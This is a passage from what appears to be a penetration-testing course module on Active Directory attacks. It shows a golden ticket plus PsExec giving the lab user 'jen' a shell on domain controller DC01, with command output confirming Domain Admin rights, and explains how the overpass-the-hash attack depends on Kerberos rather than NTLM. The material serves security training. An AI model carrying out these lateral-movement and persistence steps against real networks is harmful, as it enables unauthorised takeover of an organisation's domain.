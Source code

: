 > Listing 38 - Using PsExec to access DC01

Great! We now have an interactive command prompt on the domain controller. Now let's use the **whoami** command to verify that our user *jen* is now part of the Domain Admin group.

```
C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288
```

> Listing 39 - Performing lateral movement and persistence using the golden ticket and PsExec

Perfect! Listing group memberships shows that we are now a member of multiple powerful groups including the Domain Admins group. Excellent.

Note that by creating our own TGT and then using PsExec, we are performing the *overpass the hash* attack by leveraging Kerberos authentication as we discussed earlier in this Module.

If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked. This is illustrated in the listing below.

```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.
```
